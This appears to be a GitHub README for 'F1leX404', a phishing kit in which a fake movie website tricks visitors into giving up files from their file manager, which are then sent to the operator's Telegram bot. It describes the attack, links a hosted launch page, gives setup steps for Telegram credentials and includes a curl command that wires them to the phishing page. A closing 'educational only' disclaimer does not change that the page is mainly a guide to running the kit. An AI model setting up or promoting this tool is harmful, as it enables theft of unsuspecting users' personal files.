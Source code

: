 ## F1leX404

This project demonstrates how hackers use social engineering to access a user's file manager data through a malicious website. Learn how this method works and how to prevent it.

---

## 🧠 How It Works

Hackers create fake websites and use **social engineering** to manipulate users into interacting with them. Once a user engages, the attacker can gain access to sensitive data stored on their file system. 🕵️‍♂️

**📸 Data Reception on Telegram**

![Telegram Data Access](https://i.postimg.cc/ZKWJH5RZ/IMG-20250714-233240.jpg)

**🎥 Attack Demonstration**
> https://youtu.be/8tWrX9j5Nuo

---

## ⚙️ Build Your Own Test Site

Create a similar setup by entering your **Telegram Bot Token** and **Chat ID** on the platform below 🔒

[▶️ Launch Test Site](https://cinemaxhub.vercel.app/)

---

## 📚 Setup Guide

1. **Get Your Telegram Bot Token** and **Chat ID** by following this tutorial:

> https://youtube.com/shorts/ZvCdiTS-uGw

2. Store both values securely as environment variables or GitHub Secrets—**never** hard-code them.

---

## 🚀 Performance Comparison

| Variant         | Speed          | Use-Case                   |
| --------------- | -------------- | -------------------------- |
| 🌐 Public Code  | Slower         | Study, audit, learn        |
| ⚡ Optimized API | **40% faster** | Controlled red-team drills |

---

## 📋 Quick API Snippet

```bash
# Copy and paste this in your terminal:
curl "https://cinemaxhub.vercel.app/movie.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID"
```

> **⚠️ Warning:** This project is **educational only**. Do **not** engage in unauthorized access or use for malicious purposes. **Always obtain explicit consent** before performing any security testing.

---
